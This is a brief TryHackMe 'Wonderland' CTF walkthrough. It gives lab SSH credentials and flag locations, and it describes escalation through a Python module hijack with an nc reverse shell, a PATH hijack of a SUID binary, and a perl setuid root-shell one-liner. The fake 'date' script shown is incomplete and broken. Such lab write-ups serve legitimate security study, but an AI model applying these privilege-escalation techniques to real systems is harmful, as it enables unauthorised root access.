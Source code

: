 ```yaml
---

title: Walkthrough - Wonderland
published: true
category: TryHackMe Walkthrough
---
```


Tags: CTF, Alice in Wonderland, PrivESC, Linux.
Description: Fall down the rabbit hole and enter wonderland.
Difficulty: Easy
URL: [https://tryhackme.com/room/wonderland](https://tryhackme.com/room/wonderland)

* * *

## Notes

- `stegseek -sf index.jpeg `
- follow the r/a/b/b/i/t which is a hint for the directories i found with ferroxbuster

then viewing source gets us to the ssh logins for alice:HowDothTheLittleCrocodileImproveHisShiningTail

- `sudo -l`

the python script is importing 'random', however random isnt calling a path so we can create a random.py for the script to import with a nc mkfifo calling back to a listener on our attacker

Checking teaParty which has SUID set as hatter in rabbits dir with ghidra we see it is running date and not calling full path. We can take advantage of this by creating a script `date` in `tmp` and adding tmp tot he path. 

date

```
#!/bin/sh

-i
```

than `export PATH=/tmp:$PATH`

running `./teaParty` gets us hatters shell

hatter creds

hatter:WhyIsARavenLikeAWritingDesk?

running linpeas eariar we found perl has setuid capabilities. GTFO bins get us root

`perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

* * * 

## user.txt?

/root

* * * 

## root.txt?

/home/alice

* * * 

